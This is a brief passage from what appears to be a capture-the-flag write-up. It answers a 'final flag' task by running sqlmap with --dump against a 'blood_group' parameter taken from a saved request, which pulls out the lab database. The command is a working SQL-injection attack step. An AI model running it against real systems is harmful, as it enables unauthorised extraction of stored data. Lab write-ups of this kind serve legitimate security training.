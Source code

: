 {% hint style="info" %}
root
{% endhint %}

### Task 3 - What is the final flag?

We can use flag --dump to watch all db:

```bash
sqlmap -r blood.txt -p blood_group --dump
```

<figure><img src="../.gitbook/assets/Schermata del 2023-07-09 01-17-19.png" alt=""><figcaption></figcaption></figure>
